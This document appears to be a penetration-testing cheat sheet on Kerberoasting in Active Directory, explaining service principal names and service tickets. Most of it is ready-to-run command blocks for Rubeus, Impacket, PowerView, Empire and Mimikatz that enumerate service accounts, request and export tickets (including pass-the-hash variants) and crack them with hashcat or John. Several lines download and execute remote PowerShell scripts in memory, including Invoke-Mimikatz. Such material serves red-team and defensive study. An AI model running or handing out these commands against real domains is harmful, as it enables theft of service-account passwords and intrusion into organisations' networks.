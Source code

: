 # Active Directory - Kerberos Kerberoasting

### Overview

A Kerberoasting attack is an attack on the `Kerberos` authentication protocol
that involves compromising the password of a service account, a domain account
that has a `ServicePrincipalName (SPN)`, through `service tickets` requests to
the `Ticket-Granting Service (TGS)`.

The attack is based on the fact that a part of the `service tickets` is
encrypted using one of the service account secrets (`RC4`, corresponding to
the `NTLM hash` of the service account password, and `AES 128/256 bits` keys).
The encryption type to be used can be specified client-side in order to force
the use of the `RC4` key. Thus, an offline cracking attack on the service
tickets can be conducted to retrieve the plaintext password of the
corresponding service account.   

As any authenticated user on the domain in possession of a valid
`Ticket-Granting Ticket (TGT)` can requests service tickets for all available
services, the service accounts password are exposed to offline cracking attack
that are much faster and can not be time restricted.

The attack chain is as follow:
  - Identification of accounts with a `SPN` (service accounts)
  - Request of a service ticket for those services
  - Extraction of the TGS for offline cracking

###### Service Principal Names (SPN)

The `SPN` is a unique identifier of a service instance. `SPNs` are used in
`Kerberos` authentication to associate a service instance with a service
logon account. `SPN` are used to map a service running on a server to an
account it’s running as so that it can accept Kerberos authentication.

### Automated SPN discover, request and export of TGS

The following tools can be used to automate the SPN discovery and the request
and export of Service Tickets for offline cracking.

`Rubeus` permitting the filtering out AES-enabled accounts.

```
# List statistics about Kerberoastable accounts, such as the number of accounts supporting the different encryption algorithms and the years of last password definition
kerberoast /stats

# All service accounts without AES enabled
Rubeus.exe kerberoast /rc4opsec /outfile:<FILE_PATH>

# All RC4-enabled service accounts (whom may have AES enabled as well) - with RC4 encrypted service tickets
Rubeus.exe kerberoast /tgtdeleg /outfile:<FILE_PATH>

# All service accounts - with the highest supported encryption algorithm
Rubeus.exe kerberoast /outfile:<FILE_PATH>

# Specific service account
Rubeus.exe kerberoast /tgtdeleg /user:<USERNAME> /outfile:<FILE_PATH>
Rubeus.exe kerberoast /tgtdeleg /spn:<SPN> /outfile:<FILE_PATH>

# All service accounts in the specified domain with the provided credentials
# Note that sometimes the credentials specification may induces a bug and Rubeus should be used through a runas /Netonly session
Rubeus.exe kerberoast /rc4opsec /dc:<DC_HOSTNAME | DC_IP> /domain:<DOMAIN_FQDN> /creduser:'<DOMAIN_FQDN>\<USERNAME>' /credpassword:'<PASSWORD>' /outfile:<FILE_PATH>
Rubeus.exe kerberoast /dc:<DC_HOSTNAME | DC_IP> /domain:<DOMAIN_FQDN> /creduser:'<DOMAIN_FQDN>\<USERNAME>' /credpassword:'<PASSWORD>' /outfile:<FILE_PATH>

# (Powershell) Invoke-Kerberoast - Load in memory
IEX (New-Object Net.WebClient).DownloadString(‘https://gist.githubusercontent.com/0xbadjuju/0ebe02983273048c237a8b24633cee3f/raw/c385a21c230ee0e274293aa4e50b5b9ed4197df2/Invoke-Kerberoast.ps1')
Invoke-Kerberoast [[-Identity] <String[]>] [-Domain <String>] [-LDAPFilter <String>] [-SearchBase <String>] [-Server <String>] [-SearchScope <String>] [-ResultPageSize <Int32>] [-ServerTimeLimit <Int32>] [-Tombstone] [-OutputFormat <String>] [-Credential <PSCredential>]
Invoke-Kerberoast
Invoke-Kerberoast -Domain <DOMAIN> -Server <DC>
Invoke-Kerberoast -Format "John" / "Hashcat" # Default to John
Invoke-Kerberoast | Out-File <FILE>

# (Python) Impacket/examples GetUserSPNs.py
GetUserSPNs.py -dc-ip <DC_HOSTNAME | DC_IP> -request <DOMAIN>/<USERNAME>
GetUserSPNs.py -dc-ip <DC_HOSTNAME | DC_IP> -request -outputfile <FILE> <DOMAIN>/<USERNAME>
```

### Manual SPN Discovery

The following tools can be used to retrieve the SPN of the Domain services:

```
# Active Directory module
Get-ADUser -Properties servicePrincipalName -Filter "servicePrincipalName -like '*'" | Select-Object SamAccountName,servicePrincipalName
Get-ADUser -Server <DC_HOSTNAME | DC_IP> -Credential <PSCredential> -Properties servicePrincipalName -Filter "servicePrincipalName -like '*'" | Select-Object SamAccountName,servicePrincipalName

# PowerView
Get-DomainUser -SPN | Select-Object SamAccountName,servicePrincipalName
Get-DomainUser -SPN | ?{$_.memberof -match 'Domain Admins'}

# (Python) Impacket/examples GetUserSPNs.py
# Request service tickets for all service accounts
GetUserSPNs.py -dc-ip <DC_HOSTNAME | DC_IP> <DOMAIN>/<USERNAME>
# Request service tickets for the specific account (using the service account SamAccountName)
GetUserSPNs.py -dc-ip <DC_HOSTNAME | DC_IP> <DOMAIN>/<USERNAME> -request-user '<USERNAME>'
# Pass-the-Hash
GetUserSPNs.py -dc-ip <DC_HOSTNAME | DC_IP> -hashes <LMHASH:NTHASH> <DOMAIN>/<USERNAME>

# (Powershell) GetUserSPNs - retrieve only SPN associated to user accounts (CN=Users) - inject and run automatically
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1')

# (Powershell) Get-SPN - allows for regex searching in the account, service or group name (specified by the Type and Search parameters)
# IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/Get-SPN/Get-SPN.psm1")
Get-SPN [[-Credential] <PSCredential>] [[-DomainController] <String>] [[-Limit] <Int32>] [[-SearchScope] <String>] [[-SearchDN] <String>] [-Type] <String> [-Search] <String> [[-List] <String>] [<CommonParameters>]
Get-SPN -Type user -Search * -List yes
Get-SPN -Type service -Search "MSSQL*"
Get-SPN -DomainController <DC_HOSTNAME | DC_IP> -Credential <DOMAIN>\<USERNAME [...]

# Empire
usemodule situational_awareness/network/get_spn
```

Focus on the accounts with the higher probability of using a weak password,
usually user accounts with a password that has not been changed in a long time
/ not changed at all.

### Manual request and export of Service Tickets

The following tools can be used to request and export specific user Service
Tickets:

```
# (Python) Impacket/examples GetUserSPNs.py
GetUserSPNs.py -dc-ip <DC_HOSTNAME | DC_IP> -request-user '<USER>' <DOMAIN>/<USERNAME> # Requests TGS for the SPN associated to the USER specified (just the username, no domain needed)
GetUserSPNs.py -dc-ip <DC_HOSTNAME | DC_IP> -request-user '<USER>' -outputfile <FILE> <DOMAIN>/<USERNAME>

# (Python) skelsec/kerberoast
kerberoast spnroast -r <DOMAIN> -u '<USER>' <DOMAIN>/<USERNAME>:<PASSWORD>@<DCIP> # Requests TGS for the SPN associated to the USER specified (just the username, no domain needed)
kerberoast spnroast -r <DOMAIN> -u '<USER>' -n <DOMAIN>/<USERNAME>:<NTLMHASH>@<DCIP> # PtH
kerberoast spnroast -r <DOMAIN> -u '<USER>' -n <DOMAIN>/<USERNAME>:<AESKEY>@<DCIP> # Pass the Key
kerberoast spnroast -r <DOMAIN> -t <USERFILE>  <DOMAIN>/<USERNAME>:<PASSWORD>@<DCIP> # File with a list of usernames to roast, one user per line
kerberoast spnroast -r <DOMAIN> -u '<USER>' -o <FILE> <DOMAIN>/<USERNAME>:<PASSWORD>@<DCIP>

# (Powershell)
# Request TGS KerberosRequestorSecurityToken, export them using Mimikatz and convert to hash using John's kirbi2john.py

# Requests TGS for the specified SPN
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<SPN>"

# Requests TGS for all SPN associated to Users accounts
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1") | ForEach-Object {try{New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.ServicePrincipalName}catch{}}

# Export tickets using mimikatz
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1")
Invoke-Mimikatz -Command 'standard::base64 "kerberos::list /export" exit'

# Empire
usemodule credentials/get_spn_tickets
usemodule credentials/mimikatz/extract_tickets
```

### Offline cracking of Service Tickets

Both `John the Ripper` (`magnumripper` fork) and `hashcat` can be used to crack
the service tickets.

The hash needs to respect the following format to be recognized by `John` /
`hashcat`:

```
# ENCRYPTION_TYPE 23 = RC4
# ENCRYPTION_TYPE 17 = AES128
# ENCRYPTION_TYPE 18 = AES256

$krb5tgs$<ENCRYPTION_TYPE>$*user$realm$test/spn*$63386[...]
```

Depending on the version used, the hash from the `PowerSploit`
`Invoke-Kerberos` cmdlet may need to be manually updated.

The following commands to crack the hash can be used:

```
# Its recommended to use Hashcat on a Windows OS for better performance due to driver compatibility
hashcat64.exe -m 13100 -a 0 [-r <RULE_FILE>] <HASHFILE> <WORDLIST>

john --wordlist=<WORDLIST> <HASHFILE>
```
